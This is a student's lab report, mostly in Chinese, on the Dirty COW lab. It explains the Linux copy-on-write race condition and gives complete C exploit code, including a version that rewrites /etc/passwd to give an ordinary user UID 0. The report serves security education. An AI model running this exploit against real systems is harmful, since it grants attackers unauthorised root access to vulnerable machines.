




# Dirty COW Attack Lab

> 1120162015 李博

## Task 1: Modify a Dummy Read-Only File

### Create a Dummy File

首先创建文件`zzz`如下图，并设置权限为`644`，即只有`root`用户能进行写操作。



###  原理

使用`gcc cow_attack.c -lpthread`编译源码，关键在`writeThread`和`madviseThread`这两个函数，代码如下。

```c
void *writeThread(void *arg)
{
  char *content= "******";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}
```

`writeThread`函数通过`/proc/self/mem`获取进程的内存内容，并循环进行`write`操作。

`madviseThread`函数通过`madvise`函数循环将`Copy-On-Write`机制产生的复制页消除。

由于`write`函数不是原子性的，即其中包含多个步骤。

1.  通过follow_page_mask请求获取可写的内存页，发生缺页中断，接着调用faultin_page从磁盘中调入内存页。
2.  再次调用follow_page_mask请求可写内存页，由于内存页只读，故调用faultin_page进行COW操作，产生一个可写的内存页。此时FOLL_WRITE标志位消除，即请求可写标志位消除。
3.  调用follow_page_mask请求可写内存页，获取到第二步中复制的可写内存页，结束。

竞争条件漏洞在于在retry循环中，第一个进行的操作是`cond_resched`，该函数作用是主动放权，等待调度。

这就使得在上述第二步进行COW操作并消除FOLL_WRITE标志位后，能够利用条件竞争使得接下来调用`madvise`函数，将刚产生的可写内存页销毁。

那么接着调用follow_page_mask请求可写内存页时就会产生缺页中断，调用faultin_page函数，由于FOLL_WRITE标志位被消除，系统认为此时请求的是可读页，故返回只读的内存页。

最后就获得了只读的数据页进行写操作。

### Launch the Attack

结果如下图，可以看到对于普通用户只读的文件`zzz`内容被修改。



## Task 2: Modify the Password File to Gain the Root Privilege

首先创建用户`l1b0`，如下图。



exp如下

```c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;
void *writeThread(void *arg);
void *madviseThread(void *arg);

int main(int argc, char *argv[])
{
  pthread_t pth1,pth2;
  struct stat st;
  int file_size;

  // Open the target file in the read-only mode.
  int f=open("/etc/passwd", O_RDONLY);

  // Map the file to COW memory using MAP_PRIVATE.
  fstat(f, &st);
  file_size = st.st_size;
  map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);

  // Find the position of the target area
  char *position = strstr(map, "l1b0:x:1001");                        

  // We have to do the attack using two threads.
  pthread_create(&pth1, NULL, madviseThread, (void  *)file_size); 
  pthread_create(&pth2, NULL, writeThread, position);             

  // Wait for the threads to finish.
  pthread_join(pth1, NULL);
  pthread_join(pth2, NULL);
  return 0;
}

void *writeThread(void *arg)
{
  char *content= "l1b0:x:0000";
  off_t offset = (off_t) arg;

  int f=open("/proc/self/mem", O_RDWR);
  while(1) {
    // Move the file pointer to the corresponding position.
    lseek(f, offset, SEEK_SET);
    // Write to the memory.
    write(f, content, strlen(content));
  }
}

void *madviseThread(void *arg)
{
  int file_size = (int) arg;
  while(1){
      madvise(map, file_size, MADV_DONTNEED);
  }
}

```

目的是将`/etc/passwd`中的`l1b0:x:1001`修改为`l1b0:x:0000`。

编译运行，结果如下图。



可以看到用户`l1b0`拥有了root权限。